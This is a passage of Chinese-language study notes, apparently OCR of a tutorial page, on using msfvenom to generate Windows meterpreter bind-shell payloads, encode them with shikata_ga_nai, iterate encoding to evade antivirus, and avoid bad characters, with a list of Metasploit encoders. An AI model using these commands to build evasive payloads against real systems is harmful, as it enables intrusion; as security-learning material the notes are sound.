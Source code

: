 ```
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
```


* 不同的函数，有不同的规避字符
  * gets函数 需要避免`/x0a`
  * scanf函数 更严格，不允许空白符
  * ...

如产生一段exec的shellcode

2.编码

指定编码器 `-e encoderName`

如
```
msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw -o test.bin
```

默认的输出格式是raw(直接输出payload的字符 含乱码)


3.迭代编码

使用-i选项进行迭代编码(迭代编码也许会有规避杀毒软件的作用)

如 3次迭代编码
```
msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3
```


msf中所有的编码器：
```
msfvenom -l encoders

Framework Encoders
==================

    Name                          Rank       Description
    ----                          ----       -----------
    cmd/echo                      good       Echo Command Encoder
    cmd/generic_sh                manual     Generic Shell Variable Substitution Command Encoder
    cmd/ifs                       low        Generic ${IFS} Substitution Command Encoder
    cmd/perl                      normal     Perl Command Encoder
    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    cmd/printf_php_mq             manual     printf(1) via PHP magic_quotes Utility Command Encoder
    generic/eicar                 manual     The EICAR Encoder
    generic/none                  normal     The "none" Encoder
    mipsbe/byte_xori              normal     Byte XORi Encoder
    mipsbe/longxor                normal     XOR Encoder
    mipsle/byte_xori              normal     Byte XORi Encoder
    mipsle/longxor                normal     XOR Encoder
    php/base64                    great      PHP Base64 Encoder
    ppc/longxor                   normal     PPC LongXOR Encoder
    ppc/longxor_tag               normal     PPC LongXOR Encoder
    sparc/longxor_tag             normal     SPARC DWORD XOR Encoder
    x64/xor                       normal     XOR Encoder
    x64/zutto_dekiru              manual     Zutto Dekiru
    x86/add_sub                   manual     Add/Sub Encoder
    x86/alpha_mixed               low        Alpha2 Alphanumeric Mixedcase Encoder
    x86/alpha_upper               low        Alpha2 Alphanumeric Uppercase Encoder
    x86/avoid_underscore_tolower  manual     Avoid underscore/tolower
    x86/avoid_utf8_tolower        manual     Avoid UTF8/tolower
    x86/bloxor                    manual     BloXor - A Metamorphic Block Based XOR Encoder
    x86/bmp_polyglot              manual     BMP Polyglot
    x86/call4_dword_xor           normal     Call+4 Dword XOR Encoder
    x86/context_cpuid             manual     CPUID-based Context Keyed Payload Encoder
```